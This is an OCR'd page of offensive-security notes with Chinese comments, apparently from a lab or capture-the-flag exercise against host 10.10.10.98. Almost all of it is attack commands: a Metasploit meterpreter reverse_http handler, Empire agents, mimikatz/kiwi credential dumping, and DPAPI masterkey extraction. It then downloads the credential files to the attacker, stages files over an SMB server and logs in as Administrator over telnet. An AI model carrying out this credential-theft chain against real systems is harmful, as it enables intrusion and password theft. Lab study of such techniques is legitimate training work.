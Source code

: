 ### msfconsole
                msfdb run
                msf5 > handler -H myip -P 9003 -p windows/meterpreter/reverse_http
                (Empire) > execute
                msf5 > sessions -i 1
                meterpreter > load kiwi
                meterpreter > ps
                meterpreter > migrate <cmd.exe-psid>
                meterpreter > kiwi_cmd '"dpapi::"'
                mimikatz '"privilege::debug" "sekurlsa::logonpasswords" "<command::args>"'

#### dpapi harj0y
                meterpreter > ls /users/security/appdata
                meterpreter > ls /users/security/appdata/Roaming/Microsoft/Protect
                // 查看用户SSID
                meterpreter > ls /users/security/appdata/Roaming/Microsoft/Protect
                meterpreter > cd /users/security/appdata/Roaming/Microsoft/Protect/<SID>
                meterpreter > dir pwd
                meterpreter > kiwi_cmd '"dpapi::masterkey /in:\users\security\appdata\Roaming\Microsoft\Protect\<SID>\<FID>"'
                meterpreter > kiwi_cmd '"dpapi::masterkey /in:<FID>"'
                // 获取masterkey文件
                meterpreter > download 0*
                meterpreter > download 4*
                // 获取credential文件
                meterpreter > download 51*
                // 若链接断开
                (Empires: powershell/code_execution/invoke_shellcode) > run
                meterpreter > sessions -i 2
                meterpreter > cd /users/security/appdata/Roaming/Microsoft/Protect/<SID>

                (Empire) > searchmodule mimikatz
                (Empire) > usemodule powershell/credentials/mimikatz/command
                (Empire: usemodule powershell/credentials/mimikatz/command) > info
                (Empire: usemodule powershell/credentials/mimikatz/command) > set Agent <session-id>
                (Empire: usemodule powershell/credentials/mimikatz/command) > set Command answer
                (Empire: usemodule powershell/credentials/mimikatz/command) > run //失败
                
### 搭建smb服务器将文件传到windows机器上
                smbserver -smb2support jason 'pwd'

### 在windows机器上运行mimikatz
                mimikatz # cd <masterkey目录> 
                // 用新的(旧的)masterkey文件得到用户key以及管理账户
                mimikatz # dpapi::masterkey /in:<masterkey> /sid:<SID> /password:<password>
                mimikatz # dpapi::credhist /in:<cred-file> 

### 登录管理员账户
                telnet 10.10.10.98
                (<user:password>:<Administrator:password>)

                

                
## 查看john日志
                cat ~/.john/john.log